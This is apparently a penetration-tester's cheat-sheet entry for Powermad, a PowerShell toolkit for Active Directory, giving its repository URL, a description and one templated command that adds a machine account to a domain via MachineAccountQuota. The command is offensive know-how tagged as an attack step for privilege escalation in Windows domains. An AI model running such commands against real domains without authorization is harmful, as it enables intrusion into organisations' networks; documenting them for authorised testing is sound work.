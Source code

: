 # powermad

% windows, Active directory
#plateform/windows #target/remote  #cat/ATTACK

## powermad - url
```
https://github.com/Kevin-Robertson/Powermad/
```

## powermad - desc
```
PowerShell MachineAccountQuota and DNS exploit tools
```

## Add computer
```powershell
$password = ConvertTo-SecureString '<password|Jubeaz12345+->' -AsPlainText -Force; New-MachineAccount -MachineAccount "<computer_name|jubeaz>" -Password $($password) -Domain <domain_fqdn> -DomainController <dc_ip> -Verbose
```

